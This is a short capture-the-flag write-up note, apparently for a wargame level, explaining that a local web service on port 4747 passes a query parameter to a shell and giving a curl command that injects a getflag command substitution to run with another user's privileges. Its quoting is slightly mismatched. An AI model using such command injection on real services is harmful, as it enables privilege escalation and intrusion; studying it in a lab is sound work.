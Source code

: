#file level04 runs on a server on port 4747
#it prints the item passed to x in the query string

curl localhost:4747?x=\`getflag\'

## In this instruction : print `echo $y 2>&1`
## $y is what we send from variable x in url
## Command will be executed by privileges of flag04 so we put $(getflag) in variable x into URL
## as it would be evaluated with flag04 privileges
